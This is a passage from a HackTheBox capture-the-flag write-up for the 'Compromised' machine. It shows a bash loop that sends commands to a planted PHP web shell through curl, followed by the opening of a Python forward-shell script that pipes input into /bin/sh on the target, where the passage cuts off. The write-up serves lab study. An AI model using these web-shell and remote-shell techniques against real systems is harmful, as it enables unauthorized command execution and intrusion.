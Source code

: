 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2009:14:33.png)

And here we have RCE

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2009:42:47.png)

We build a simple reader in shell to keep with a "pseudo shell"

```sh
#!/bin/bash
# 0x4rt3mis
# Shell "pseudo" - Compromissed HackTheBox

echo "exit for exit"
input=""
while [ "$input" != "exit" ]
do
    echo -n "> "
    read input
    curl -GET http://10.10.10.207/shop/vqmod/xml/payload.php --data-urlencode "cmd=$input"
done
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2010:01:26.png)

We have a pseudo interactive shell, we must do that in python now, because I want to have it automated in a one click script.

I got the forward shell from [ippsec](https://github.com/IppSec/forward-shell)

I do some modifications, on the url, and the data which were being sent to the server, so it's fully working.

forward-shell.py

```py
#!/usr/bin/python3
# -*- coding: utf-8 -*-
# Forward Shell Skeleton code that was used in IppSec's Stratosphere Video
# -- https://www.youtube.com/watch?v=uMwcJQcUnmY
# Authors: ippsec, 0xdf

import base64
import random
import requests
import threading
import time

class WebShell(object):

    # Initialize Class + Setup Shell, also configure proxy for easy history/debuging with burp
    def __init__(self, interval=1.3, proxies='http://127.0.0.1:8080'):
        # MODIFY THIS, URL
        self.url = r"http://10.10.10.207/shop/vqmod/xml/payload.php"
        self.proxies = {'http' : proxies}
        session = random.randrange(10000,99999)
        print(f"[*] Session ID: {session}")
        self.stdin = f'/dev/shm/input.{session}'
        self.stdout = f'/dev/shm/output.{session}'
        self.interval = interval

        # set up shell
        print("[*] Setting up fifo shell on target")
        MakeNamedPipes = f"mkfifo {self.stdin}; tail -f {self.stdin} | /bin/sh 2>&1 > {self.stdout}"
        self.RunRawCmd(MakeNamedPipes, timeout=0.1)

```